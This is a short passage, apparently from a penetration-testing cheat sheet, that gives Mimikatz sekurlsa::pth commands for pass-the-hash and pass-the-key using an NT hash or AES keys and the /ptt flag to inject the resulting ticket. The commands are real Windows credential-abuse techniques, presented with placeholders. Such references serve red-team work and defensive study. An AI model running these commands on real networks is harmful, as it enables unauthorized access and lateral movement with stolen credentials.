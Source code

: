 **Mimikatz**
```
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```  

For both mimikatz and Rubeus, the /ptt flag is used to automatically inject the ticket.

